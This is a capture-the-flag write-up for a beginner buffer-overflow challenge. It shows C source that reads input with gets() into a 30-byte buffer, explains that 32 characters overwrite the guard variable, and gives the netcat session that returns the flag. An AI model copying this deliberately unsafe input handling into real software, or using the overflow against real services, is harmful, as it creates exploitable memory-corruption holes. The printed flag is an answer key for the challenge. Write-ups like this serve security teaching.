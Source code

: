 # Go With the Overflow

## Pwn

### Pwn is easy if you go with the (over) flow.

This challenge came with a binary and the source code.

**Source**
```C
#include <stdio.h>
#include <stdlib.h>

#pragma GCC diagnostic ignored "-Wimplicit-function-declaration"

char buffer[30];
int blah;
FILE *fptr;
char daflag[50];

int main() {
	blah = 1337;
	printf("\n\nAre you able to go with the (over) flow?\n");
	printf("What's your favorite word? ");
	fflush(stdout);
	gets(buffer);
	if (blah == 1337){
		printf("\nYou didn't get into the flow\n");
		fflush(stdout);
	}else{
		printf("\nNice job, going with the flow\n");
		fptr = fopen("./flag.txt", "r");
		fgets(daflag, 46, fptr);
		fclose(fptr);
		printf("Let your flag flow: %s\n\n", daflag);
		fflush(stdout);
	}
	return 0;
}
```

Reviewing the source code, the first thing that pops out is that it uses `gets` to collect user input.  This is extremely dangerous; if you don't believe me, read the `gets` man page.  The buffer has space allocated for 30 characters.  If the user adds more than that, it will start overwriting the stack.  
The next thing that catches my attention is that it sets a variable to 1337 and, after the user input, checks whether that is still the case.  If it is, no flag.  If it's not, you get the flag.  This is a relatively easy buffer overflow.  We need to add enough characters (32) in the input to overflow the buffer and overwrite the `blah` variable.


```sh
% nc 98.88.89.199 2228

Are you able to go with the (over) flow?
What's your favorite word? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Nice job, going with the flow
Let your flag flow: teractf{th3_fl0w_15_0v3r_turn_0ut_th3_l1ght5}
```

**teractf{th3_fl0w_15_0v3r_turn_0ut_th3_l1ght5}**
